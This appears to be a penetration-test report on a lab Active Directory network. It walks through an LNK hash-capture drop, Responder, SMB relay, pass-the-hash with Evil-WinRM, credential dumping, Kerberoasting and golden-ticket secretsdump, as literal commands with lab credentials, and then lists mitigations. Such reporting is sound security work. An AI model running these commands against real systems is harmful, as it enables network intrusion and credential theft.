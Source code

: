 # Penetration Testing Report for Doomsday Labs

## Executive Summary
This document presents a detailed account of the penetration testing executed against Doomsday Labs' network, covering IP addresses from 10.100.1.2 to 10.100.1.7. The primary goal was to identify vulnerabilities within the network and find potential security risks using various techniques including OSINT, SMB Relay attacks, Credential Dumping, and Active Directory Exploitation.

## Test Environment
- **Scope**: Examined IP addresses range from 10.100.1.2 to 10.100.1.7.
- **Operating Systems**: Targets on Windows Server 2019; Attacks from Kali Linux.
- **Tools Used**: Nmap, Crackmapexec, Responder, Hashcat, Impacket, Bloodhound, Neo4j, pypykatz/mimikatz, Evil-WinRM, Intelx, DNSDumpster, Pastebin, and Shodan.

## Key Exploits and Findings

### Open Source Intelligence (OSINT) 
- **Objectives**: Utilized Intelx, DNSDumpster, Pastebin, and Shodan to obtain as much information as possible through passive reconnaissance to gain initial access.
- **Methodology**:
    - Used Intelx, DNSDumpster, Pastebin, and Shodan to obtain as much information through passive reconnaissance.
    - Using Pastebin, we were able to obtain a valid set of credentials still. 

### LNK File Drop
- **Objective**: To obtain FileMaker's (administrator) NetNTLM hash via a crafted .LNK file.
- **Methodology**:
    - Created a .LNK file targeting the attacker’s Kali machine.
    - Deployed using the command and the credentials obtained through OSINT:
        ```
        crackmapexec smb 10.100.1.4 -u info -p WhenTomorrowisNot@nOption2024 -M slinky -o server=10.100.1.76 name=JK_Flag
        ```
    - Captured the NetNTLM hash using Responder:
        ```
        sudo responder -I tun0 -A
        ```
    - The hash was secured and logged from `/usr/share/responder/logs`.

### SMB Relay and Credential Harvesting
- **Target File**: `targets.txt` — includes scoped IP addresses for testing.
- **Approach**: 
    - Conducted SMB Relay attacks to capture and relay NTLM hashes using:
        ```
        crackmapexec smb 10.100.1.2-7 --gen-relay-list targets.txt
        impacket-ntlmrelayx -smb2support -tf targets.txt
        ```
    - Successfully gathered initial credentials for deeper access into the network.

### Credential Dumping
- **Tools Utilized**: Evil-WinRM, pypykatz.
- **Execution**:
    ```
    evil-winrm -i 10.100.1.4 -u filemaker -H 322e0b51ca281c55:F1F9E4FF7872D084AC0E2CB11DE7D2C0
    ```
- **Outcome**:
    - Accessed various hosts using compromised credentials.
    - Conducted manual credential dumping with pypykatz.
    - **Decrypted Password**: `Football24`

### Active Directory and Kerberos Attacks
- **Active Scanning**:
    ```
    impacket-GetADUsers doomsdaylabs.net/filemaker:Football24 -dc-ip 10.100.1.2 -all
    ```
- **Kerberoasting**:
    ```
    impacket-GetUserSPNs doomsdaylabs.net/filemaker -dc-ip 10.100.1.2 -request
    ```
    - Kerberos tickets were targeted for cracking via Hashcat.
- **Pass the Ticket & Creating Golden Tickets**:
    ```
    impacket-ticketer -nthash doIF0jCCBc6gAwIBBaEDAgEWooIEyz...[snipped]...NXU/rX266m632YeSk3csEUpoKMTPZ -domain-sid S-1-5-21-2774200336-3400690103-1452933870-1111 -domain doomsdaylabs.net da.admin
    KRB5CCNAME=./Administrator.ccache impacket-secretsdump -k -no-pass -dc-ip 10.100.1.2 -target-ip 10.100.1.2 dc.doomsdaylabs.net
    ```
    - **Plain Password**: `Sunshine24`

### Bloodhound Analysis for Lateral Movement
- **Objective**: To trace and exploit potential lateral movement pathways using Bloodhound.
- **Procedure**:
    - Continuously employed Bloodhound to map administrative privilege escalations throughout the network.

## Lateral Movement Pathways
- **Initial Setup**:
    - An LNK file was strategically placed on an SMB Share to intercept FileMaker's NetNTLM hash, facilitating early network entry.
- **Progressive Actions**:
    - Used the obtained credentials for lateral movements, Kerberoasting, and ultimately for accessing the domain controller.

## Mitigations
- **SMB Relay Attack Prevention**: Implement SMB signing and enforce stringent authentication measures to curb relay attacks.
- **Credential Security Enhancement**: Improve monitoring of credential usage and enforce multi-factor authentication where feasible.
- **Active Directory Maintenance**: Regularly update and audit Active Directory configurations. Utilize tools like Bloodhound to preemptively identify and mitigate unusual access patterns or potential escalations.

## Conclusion
The penetration test exposed multiple critical vulnerabilities that could potentially be exploited to gain unauthorized access and control over network resources.


## References
- [Hashcat Rule-based Attack Guide](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- [CrackMapExec Tool on Kali](https://www.kali.org/tools/crackmapexec/)
- [Using Hashcat for Rule-based Attacks](https://www.armourinfosec.com/performing-rule-based-attack-using-hashcat/)
